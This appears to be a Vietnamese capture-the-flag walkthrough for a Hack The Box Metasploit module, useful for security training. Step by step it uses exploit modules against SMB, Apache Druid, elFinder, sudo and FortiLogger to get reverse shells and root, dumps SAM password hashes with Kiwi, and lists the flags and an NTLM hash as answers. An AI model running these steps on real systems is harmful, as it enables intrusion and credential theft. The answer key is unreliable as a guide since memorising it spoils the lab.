# Lời giải — Using the Metasploit Framework

### Q1: Which version of Metasploit comes equipped with a GUI interface?

> **Đáp án:** `Metasploit Pro`

---

### Q2: What command do you use to interact with the free version of Metasploit?

> **Đáp án:** `msfconsole`

---

### Q3: Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer.

Trong lab này đã nói rõ chúng ta sẽ dùng module: `EternalRomance` trong metasploit để khai thác máy nạn nhân

Đầu tiên ta mở metasploit: `msfconsole` rồi chạy lệnh: `use windows/smb/ms17_010_psexec`

Tiến hành cài đặt options trong module: 
`set RHOSTS 10.129.2.141` (IP nạn nhân)  
`set LHOST tun0` (IP máy mình)



sau khi quét xong, màn hình hiện lên tab meterpreter, ta chạy lệnh `shell` để vào cmd của máy nạn nhân rồi lấy flag

Flag nằm trong `Administrator's Desktop`



> **Đáp án:** `HTB{MSF-W1nD0w5-3xPL01t4t10n}`

---

### Q4: Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer.

Đề bài đã nói là ta sẽ tiến hành xâm nhập vào dịch vụ `Apache Druid`, ta mở metasploit lên và search các `modules` về `Apache Druid`

Như ta có thể thấy module `0` và `3` là liên quan đến `Apache Druid`



Tiến hành nmap để tìm hiểu sâu hơn để biết nên chọn module nào để khai thác  
Ta thấy có trang web đang mở ở cổng 8888



Chạy lệnh `curl <Địa chỉ>` để đọc trang web đấy  
Như vậy ta đã biết được cần phải dùng `module 0` để khai thác 



Chạy lần lượt các lệnh:  
Command: `use linux/http/apache_druid_js_rce`  
Command: `set RHOST <IP nạn nhân>`  
Command: `set LHOST tun0`  
chạy lệnh `run` rồi cửa sổ `meterpreter` hiện ra

ta khám phá qua rồi lấy flag

> **Đáp án:** `HTB{MSF_Expl01t4t10n}`

---

### Q5: The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?

Ta tiến hành truy cập web theo địa chỉ IP và nhấn `F12` để đọc source code của web  



Như ta có thể thấy, `elFinder 2.1.x` chính là đáp án ta cần tìm

> **Đáp án:** `elFinder`

---

### Q6: Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

Do ta đã biết web này sử dụng trình quản lý `elFinder`, ta sẽ thử search xem có module khai thác trình quản lý này trong metasploit không ?



Như vậy là có 2 module khai thác, mình sẽ dùng module `no. 0`  
Cài options trong module để chuẩn bị khai thác:  
Command: `set LHOST tun0`  
Command: `set RHOSTS <IP nạn nhân>`  
Command: `run` để bắt đầu khai thác



Màn hình ra tab `meterpreter` tức là đã xâm nhập thành công, ta chạy lệnh `shell` rồi lệnh `whoami` để lấy đáp án



> **Đáp án:** `www-data`

---

### Q7: The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.

Sau 1 hồi thử nhiều modules và nmap quét sâu hơn vào target mình sẽ dùng module `exploit/linux/local/sudo_baron_samedit` để khai thác 



Mở options và cấu hình để chuẩn bị khai thác



Ở module này ta cần phải cài session, mà trước đó ta đã thâm nhập thành công



ta sẽ dùng lệnh `background` để lưu lại session ở lần thâm nhập trước đó



Lần này mở sessions ta đã thấy `ID 1`



ta cài `LHOST` và `SESSION` để chuẩn bị tiến hành khai thác



chạy lệnh `run`, màn hình chuyển sang tab `meterpreter` tức là đã thành công  
từ đây ta chỉ cần mở `shell` để lấy đáp án

> **Đáp án:** `HTB{5e55ion5_4r3_sw33t}`

---

### Q8: Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

ta thực hiện nmap để quét nạn nhân



Như ta có thể thấy, `port: 5000` và `port: 5985` mở ở giao thức http  
Ở `port 5985` mình không mở được !!!  
Ở `port 5000` mở ra giao diện đăng nhập `FORTILOGGER`



Mình thử search xem có module lỗ hổng nào liên quan đến từ khóa `fortilogger` trong metasploit:



Mình sẽ dùng module `no. 0`



Tiến hành cài đặt `options` để chuẩn bị khai thác nạn nhân



chạy lệnh `shell` để vào terminal hệ điều hành rồi chạy lệnh `whoami` để lấy đáp án

> **Đáp án:** `nt authority\system`

---

### Q9: Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.

Vẫn mở `shell` đã bị khai thác ở question trước đó, mình sẽ chạy lệnh `lsa_dump_sam` để liệt kê tất cả các người dùng cũng như là `hash key` tương ứng



Như hệ thống nói thì mình phải có bộ công cụ `kiwi`, mình sẽ tiến hành cài bộ công cụ này: `load kiwi`



Sau khi cài xong, mình chạy lệnh `lsa_dump_sam` để lấy đáp án



> **Đáp án:** `cf3a5525ee9414229e66279623ed5c58`

